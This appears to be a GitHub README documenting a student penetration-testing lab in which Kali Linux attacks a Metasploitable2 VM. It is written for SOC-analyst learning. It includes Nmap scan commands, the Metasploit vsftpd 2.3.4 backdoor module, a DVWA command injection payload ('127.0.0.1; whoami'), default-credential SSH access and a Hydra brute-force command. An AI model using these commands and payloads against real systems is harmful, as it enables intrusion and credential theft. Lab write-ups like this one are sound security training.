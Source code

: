 # Kali Linux & Metasploitable2: Penetration Testing Lab

This project simulates an internal network attack scenario using Kali Linux (attacker) and Metasploitable2 (target). It demonstrates core reconnaissance, exploitation, and post-exploitation techniques aligned with SOC Analyst learning objectives.

---

## 📋 Table of Contents

- [Lab Setup](#lab-setup)
- [Phase 1: Reconnaissance](#phase-1-reconnaissance)
  - [Basic Nmap Scan](#basic-nmap-scan)
  - [Service Version Detection](#service-version-detection)
  - [Vulnerability Detection](#vulnerability-detection)
- [Phase 2: Exploitation](#phase-2-exploitation)
  - [FTP Exploit – vsftpd 2.3.4 Backdoor](#FTP Exploit - vsftpd 2.3.4 Backdoor (CVE-2011-2523)
  - [SSH Exploit](#ssh-exploit)
  - [HTTP Exploit – DVWA Command Injection](#http-exploit--dvwa-command-injection)
  - [HTTP Brute-Force Attack – DVWA Login](#http-brute-force-attack--dvwa-login)

---

## 🛠️ Lab Setup

| Component    | Details                  |
|--------------|--------------------------|
| Attacker     | Kali Linux (UTM VM)      |
| Target       | Metasploitable2 (UTM VM) |
| Network Mode | Shared NAT / Bridged     |
| Connectivity | Confirmed via ping       |

---

## Phase 1: Reconnaissance

### Target IP: `192.168.64.3`

---
### Scan Files
These are the original Nmap scan output files I used for analysis:

* [basic-scan.txt](./basic-scan.txt)
* [version-scan.txt](./version-scan.txt)
* [vuln-scan.txt](./vuln-scan.txt)

---

### Basic Nmap Scan

```bash
nmap -sS -T4 192.168.64.3 -oN basic-scan.txt
```
**Summary of Open Ports:**
- 21 (FTP)
- 22 (SSH)
- 80 (HTTP)
  
#### Service Version Detection
```bash
nmap -sS -sV -T4 192.168.64.3 -oN version-scan.txt
```
Summary:
- FTP: vsftpd 2.3.4
- SSH: OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
- HTTP: Apache 2.2.8
  
#### Vulnerability Detection
```bash
nmap --script vuln -T4 192.168.64.3 -oN vuln-scan.txt
```
**Summary:** 
- Port 21 (FTP) - VULNERABLE to vsftpd 2.3.4 backdoor (CVE-2011-2523)
- Port 80 (HTTP) - Apache version outdated with multiple CVEs


---

## Phase 2: Exploitation

### FTP Exploit - vsftpd 2.3.4 Backdoor (CVE-2011-2523)

#### Tool Used: Metasploit Framework
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.64.3
exploit
```

**Result:** 
* Successful shell access as `root`
* Verified with `whoami`


---

### SSH Exploit

**Target IP:** 192.168.64.3  
**Tool Used:** Native OpenSSH Client
```bash
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.64.3
```

**Result:** 
* Successful login using default credentials:
  * Username: `msfadmin`
  * Password: `msfadmin`
* Access confirmed with:
  `whoami`

---

#### Compatibility Issue: Legacy SSH Key Algorithms

**Problem Encountered**
```Unable to negotiate with 192.168.64.3 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss```

**Solution**
```ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.64.3```

**Lessons Learned:**
Modern SSH clients disable depreciate algorithms by default. Lab environments often require these legacy options to connect. SOC teams should watch for deprecated algorithm negotiation in logs as potential indicators of legacy or malicious activity.


---

### HTTP Exploit – DVWA Command Injection

**Target URL:** `http://192.168.64.3/dvwa/vulnerabilities/exec/`
**Authentication:**  
- Username: `admin`  
- Password: `password`

**DVWA Configuration:**
- Set security level to `Low` under the "DVWA Security" tab

**Recon Tool Used:** [Nikto](https://github.com/sullo/nikto)  
**Scan Output:** [nikto-scan.txt](./nikto-scan.txt)

Nikto was used to identify accessible directories and common web vulnerabilities. This helped uncover `/phpinfo.php` and `/test/`, indicating potential weak points in the Apache web server.

**Exploit Method:**
- Injected shell command via the IP input field:
```bash
127.0.0.1; whoami
```

**Output:**
```PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.014 ms
...
www-data
```

***Result:***
* Successfully executed `whoami`
* Proved remote command execution vulnerability


---

### HTTP Brute-Force Attack – DVWA Login

**Target URL:** `http://192.168.64.3/dvwa/login.php` 
**Login Type:** HTTP POST Form  
**Tool Used:** Hydra

**Command:**
```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt 192.168.64.3 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

**Result:**
```[80][http-post-form] host: 192.168.64.3   login: admin   password: password```

**Summary:** 
* Performed a dictionary brute-force attack
* Login credentials were discovered
* Demonstrated the importance of strong password credential policies


**SOC Analyst Takeaways**
Brute-force activity can be detected via repeated login failures, especially to web apps or SSH
Exploits often rely on outdated software or weak credentials
Key log indicators: POST attempts to login pages, multiple SSH attempts, legacy crypto negotiations
Defenses: Rate limiting, MFA, updated services, IDS/IPS, log monitoring
